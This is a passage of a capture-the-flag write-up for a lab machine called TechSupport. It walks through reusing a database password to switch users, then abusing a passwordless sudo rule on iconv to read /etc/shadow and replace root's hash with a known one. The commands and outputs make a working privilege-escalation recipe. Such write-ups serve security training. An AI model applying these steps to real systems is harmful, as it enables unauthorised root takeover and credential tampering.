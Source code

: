 We have the password for the database. Maybe the local password for `scamsite` user is the same password for the database. Let's try :  
```
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: 
scamsite@TechSupport:/var/www/html/wordpress$
```

It is ! Now, time to get root.

## Privilege escalation (root)

Let's see if we have any sudo rights :  
```
scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can use `ìconv` as root without password. Let's search for `iconv` on [GTFOBins](https://gtfobins.github.io/) :  
![](https://i.imgur.com/4vx8I7k.jpg)  

We can read or write files with `root` permissions. So we can read `/etc/shadow` and save the output to `shadow` like this :  
```
scamsite@TechSupport:~$ rm shadow 
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "/etc/shadow" > shadow
```

Now, let's generate a hash on our local machine :  
```
attacker@AttackBox:~/Tech_Supp0rt$ mkpasswd --method=SHA-512 --stdin
Mot de passe : test
$6$1qGfogPTajX5Qxxg$/zlvLhLo3Oi619BJljqiFFl87M751r.eQboaBrePIwhmZcaIkuHVp.K04zgVT433WU14FdvPK2tUX72t0jEjT/
```

We can edit the file to replace the hash for `root` with a hash we have generated on the target host :  
```
scamsite@TechSupport:~$ nano shadow 
scamsite@TechSupport:~$ cat shadow 
root:$6$1qGfogPTajX5Qxxg$/zlvLhLo3Oi619BJljqiFFl87M751r.eQboaBrePIwhmZcaIkuHVp.K04zgVT433WU14FdvPK2tUX72t0jEjT/:18775:0:99999:7:::
daemon:*:18484:0:99999:7:::
bin:*:18484:0:99999:7:::
sys:*:18484:0:99999:7:::
sync:*:18484:0:99999:7:::
games:*:18484:0:99999:7:::
man:*:18484:0:99999:7:::
lp:*:18484:0:99999:7:::
mail:*:18484:0:99999:7:::
news:*:18484:0:99999:7:::
uucp:*:18484:0:99999:7:::
proxy:*:18484:0:99999:7:::
www-data:*:18484:0:99999:7:::
backup:*:18484:0:99999:7:::
list:*:18484:0:99999:7:::
irc:*:18484:0:99999:7:::
gnats:*:18484:0:99999:7:::
nobody:*:18484:0:99999:7:::
systemd-timesync:*:18484:0:99999:7:::
```